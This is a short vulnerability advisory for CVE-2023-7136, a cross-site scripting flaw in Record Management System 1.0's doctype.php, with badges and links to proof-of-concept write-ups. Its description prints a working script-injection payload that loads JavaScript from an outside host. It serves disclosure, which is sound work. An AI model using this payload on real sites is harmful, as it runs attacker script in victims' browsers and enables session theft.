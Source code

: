 ### [CVE-2023-7136](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7136)
![](https://img.shields.io/static/v1?label=Product&message=Record%20Management%20System&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3D%201.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79%20Cross%20Site%20Scripting&color=brighgreen)

### Description

A vulnerability classified as problematic was found in code-projects Record Management System 1.0. Affected by this vulnerability is an unknown functionality of the file /main/doctype.php of the component Document Type Handler. The manipulation of the argument docname with the input "><script src="https://js.rip/b23tmbxf49"></script> leads to cross site scripting. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-249139.

### POC

#### Reference
- https://github.com/h4md153v63n/CVEs/blob/main/Record_Management_System/Record_Management_System-Blind_Cross_Site_Scripting-2.md
- https://vuldb.com/?id.249139

#### Github
- https://github.com/h4md153v63n/CVEs
- https://github.com/h4md153v63n/h4md153v63n

